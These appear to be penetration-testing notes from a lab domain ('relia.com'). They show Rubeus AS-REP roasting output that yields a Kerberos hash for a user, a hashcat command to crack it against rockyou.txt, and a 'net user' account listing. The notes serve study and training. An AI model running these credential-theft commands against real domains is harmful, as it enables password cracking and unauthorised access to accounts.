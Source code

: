 

### AS-REP Roasting with Rubeus

```powershell
PS C:\Users\Public> .\Rubeus asreproast /nowrap
.\Rubeus asreproast /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0 


[*] Action: AS-REP roasting

[*] Target Domain          : relia.com

[*] Searching path 'LDAP://DC02.relia.com/DC=relia,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : michelle
[*] DistinguishedName      : CN=Michelle Smith,CN=Users,DC=relia,DC=com
[*] Using domain controller: DC02.relia.com (172.16.103.6)
[*] Building AS-REQ (w/o preauth) for: 'relia.com\michelle'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$michelle@relia.com:0C5BDBDC
```

### Cracking with Hashcat

```bash
kali@kali sudo hashcat -m 18200 michelle.asrep /usr/share/wordlists/rockyou.txt --force
```

## Checking Groups - net user&#x20;

Another way we can check groups a user belongs to is using `net user`

```powershell
PS C:\Users\tony> net user tony
User name                    tony
Full Name                    Nothing Stops
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/16/2023 1:57:34 PM
Password expires             Never
Password changeable          6/16/2023 1:57:34 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

```